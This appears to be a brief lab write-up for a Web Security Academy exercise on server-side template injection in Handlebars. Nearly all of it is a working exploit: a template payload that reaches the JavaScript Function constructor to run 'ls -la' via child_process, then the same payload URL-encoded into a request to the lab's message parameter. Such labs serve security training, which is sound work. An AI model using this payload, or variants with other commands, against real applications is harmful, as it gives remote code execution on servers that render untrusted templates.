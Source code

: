 
![img](media/f81b6d2ccea5a4e97985e5882d82992d.png)

Execute ls -la:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('ls',['-la']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Url-encode it and get the content with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%73%70%61%77%6e%28%27%6c%73%27%2c%5b%27%2d%6c%61%27%5d%29%2e%73%74%64%6f%75%74%2e%6f%6e%28%27%64%61%74%61%27%2c%20%66%75%6e%63%74%69%6f%6e%20%28%64%61%74%61%29%20%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%27%6f%77%6e%27%2b%20%64%61%74%61%29%3b%20%7d%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:
